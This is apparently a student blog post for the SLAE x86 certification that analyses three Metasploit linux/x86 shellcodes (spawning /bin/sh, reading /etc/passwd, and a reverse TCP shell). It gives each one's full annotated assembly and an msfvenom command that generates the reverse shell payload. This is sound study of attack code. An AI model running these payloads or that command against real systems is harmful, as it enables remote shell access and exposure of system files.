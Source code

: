 ```yaml
---
title: "SLAE x86 - Assignment 0x5"
date: 2021-10-23T01:10:31Z
draft: false
tags:
  - exploit_dev
  - assembly
categories:
  - certification
keywords:
  - slae
  - shellcode
  - assembly
---
```


# Shellcode Analysis
## Objectives
- Take up at least 3 shellcode samples created using msfpayload for linux/x86
- Use GDB/ndisasm/libemu to dissect the functionality of the shellcode
- Present analysis

## MSFvenom
The [msfpayload](https://www.offensive-security.com/metasploit-unleashed/msfpayload/) has been replaced already by [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/). It is the combination of msfpayload and [msfencode](https://www.offensive-security.com/metasploit-unleashed/msfencode/). See more details from [Rapid7's blog](https://www.rapid7.com/blog/post/2014/12/09/good-bye-msfpayload-and-msfencode/)

## MSF Exec Shellcode
Using [msfvenom](#msfvenom), a shellcode utilizing `execve` syscall to execute `/bin/sh` can be generated. See screenshot below showing how to extract the nasm code by passing the shellcode into `ndisasm` tool:

![](Pasted%20image%2020211023095223.png)

Some explanation via comments inline in every instruction are shown in the nasm code below, the first two columns are removed to have proper highlighting of the code:

```nasm
global _start

section .text

_start:
  push byte +0xb          ; push 0xb into stack
  pop eax                 ; execve(2) code
  cdq                     ; clear edx
  push edx                ; push NULL
  push word 0x632d        ; push '-c'
  mov edi,esp             ; edi = '-c' address in stack
  push dword 0x68732f     ; push '/sh', esp = '/sh'
  push dword 0x6e69622f   ; push '/bin', esp = '/bin/sh'
  mov ebx,esp             ; ebx = esp_address
  push edx                ; push NULL
  call 0x20               ; jump to 0x20 and push next instruction's address into stack
  jnc 0x87                ; equivalent to "sh"
                          ; using gdb, 0x20 is: push edi; push ebx
                          ; see screenshot following this code block
  add [edi+0x53],dl       ; esp = "/bin/sh -c sh"
  mov ecx,esp             ; ecx = esp_address
  int 0x80                ; syscall execve(first_binsh_addr, second_binsh_addr, NULL)
```
Checking with GDB, as mentioned in line 18 the address 0x20 contains the following instructions:

![](Pasted%20image%2020211023100713.png)

Furthermore, after the call function, `sh` string's address is pushed into the stack:

![](Pasted%20image%2020211023101329.png)

See the changes in the stack and registers while executing the the instructions one-by-one:

![](msf_exec.gif)

## MSF Read File Shellcode
Using [msfvenom](#msfvenom), a shellcode utilizing `open - read - write - exit` can be generated to read a file within the system specified by the `PATH`. See screenshot below showing how to extract the nasm code by passing the shellcode into `ndisasm` tool:

![](Pasted%20image%2020211023104015.png)

The same approach with [previous section](#msf-exec-shellcode), see the nasmi code below containing the explanation inline with the instructions:
```nasm
global _start

section .text

_start:
  jmp short 0x38  ; jump to call 0x2
  mov eax,0x5     ; open(2)
  pop ebx         ; address of "/etc/passwd\x00"
  xor ecx,ecx     ; clear ecx
  int 0x80        ; syscall open("/etc/passwd\x00", NULL)

  mov ebx,eax     ; ebx = fd
  mov eax,0x3     ; read(2)
  mov edi,esp     ; edi = esp
  mov ecx,edi     ; ecx = esp address
  mov edx,0x1000  ; edx = 4096
  int 0x80        ; syscall read(fd, "/etc/passwd\x00", 4096)

  mov edx,eax     ; edx = read size
  mov eax,0x4     ; write(2)
  mov ebx,0x1     ; fd = stdout
  int 0x80        ; syscall write(stdout, "/etc/passwd\x00", read_size)

  mov eax,0x1     ; _exit(2)
  mov ebx,0x0     ; clear ebx
  int 0x80        ; syscall _exit
  call 0x2        ; jump to mov eax,0x5 and push "/etc/passwd\x00" address into stack

                  ; 3D-48 = "/etc/passwd\x00", see screenshot after this code block
  das             ; 0000003D  2F
  gs jz 0xa4      ; 0000003E  657463
  das             ; 00000041  2F
  jo 0xa5         ; 00000042  7061
  jnc 0xb9        ; 00000044  7373
  ja 0xac         ; 00000046  7764
  db 0x00         ; 00000048  00
```

A pry session below shows the conversion of the shellcode bytes in lines 30 - 36 into string

![](Pasted%20image%2020211023105353.png)

The next screenshots will be showing the status of the registers and stack right before every syscall:

### Open(2)
![](Pasted%20image%2020211023110040.png)
### Read(2)
![](Pasted%20image%2020211023110723.png)
### Write(2)
![](Pasted%20image%2020211023110404.png)
### Exit(2)
![](Pasted%20image%2020211023110512.png)

## MSF Reverse TCP Shellcode
Using [msfvenom](#msfvenom), a reverse TCP shellcode can be generated with payload shell_reverse_tcp specifying the `LHOST` and `LPORT`, the listeing IP and port. See screenshot below showing how to extract the nasm code by passing the shellcode into `ndisasm` tool:

![](Pasted%20image%2020211023111233.png)

To better visualize the execution flow of the instructions, see the graph generated using [`libemu's sctest`](https://github.com/buffer/libemu) and [`dot tool`](https://graphviz.org/) (the tools same used in [Reverse TCP Shellcode Assignment](../slae_x86_a2#structure)) below:

![](reverse_tcp_shellcode.png)

 Generated using:
 ```zsh {linenos=false}
 msfvenom --arch x86 --platform linux -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1234 -f raw | sctest -vvv -Ss 10000 -G reverse_tcp_shellcode.dot
 dot reverse_tcp_shellcode.dot -T png -o reverse_tcp_shellcode.png
 ```

 As with previous two shellcodes, see the nasm code below with inline comments for explanation of the instructions:
 ```nasm
global _start

section .text

_start:
  xor ebx,ebx           ; clear ebx
  mul ebx               ; clear eax and edx
  push ebx              ; push NULL
  inc ebx               ; ebx = 0x1
  push ebx              ; push 0x1 ; SOCK_STREAM
  push byte +0x2        ; push 0x2 ; AF_INET
  mov ecx,esp           ; ecx = esp address
  mov al,0x66           ; socketcall(2)
  int 0x80              ; syscall(SYS_socketcall, SYS_SOCKET = 0x1,
                        ;         *args(AF_INET, SOCK_STREAM))
                        ; source: /usr/include/linux/net.h

  xchg eax,ebx          ; ebx = sockfd, eax = 0x1
  pop ecx               ; ecx = 0x2
  mov al,0x3f           ; dup2(2)
  int 0x80              ; syscall dup2(sockfd, fd)
  dec ecx               ; decrement ecx by 1 to cover file descriptors 2, 1, and 0
  jns 0x11              ; jump to al, 0x3f to start dup2 again until ecx = 0x0

  push dword 0x100007f  ; push IP_ADDR = 127.0.0.1
  push dword 0xd2040002 ; push PORT = 1234(0xd204) and AF_INET = 0x0002
  mov ecx,esp           ; ecx = esp_address(sockaddr {AF_INET; PORT; IP_ADDR})
  mov al,0x66           ; socketcall(2)
  push eax              ; push 0x66
  push ecx              ; push esp_address(sockaddr {AF_INET; PORT; IP_ADDR})
  push ebx              ; push sockfd
  mov bl,0x3            ; ebx = 0x3
  mov ecx,esp           ; ecx = esp_address(sockfd, sockaddr, 0x66)
  int 0x80              ; syscall(SYS_socketcall, SYS_CONNECT = 0x3, *args(esp_address))

  push edx              ; push NULL
  push dword 0x68732f6e ; push "n/sh"
  push dword 0x69622f2f ; push "//bi"
  mov ebx,esp           ; ebx = esp_address("//bin/sh")
  push edx              ; push NULL
  push ebx              ; push esp_address
  mov ecx,esp           ; ecx = esp_address(esp_address("//bin/sh"), NULL)
  mov al,0xb            ; execve(2)
  int 0x80              ; syscall execve(first_binsh_addr, second_binsh_addr, NULL)
 ```

---
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE - 1558

---
[`Link to Github repository`](https://github.com/jsnv-dev/slae_x86_assignments/tree/main/A5) | [`Link to index page`](../slae_x86)
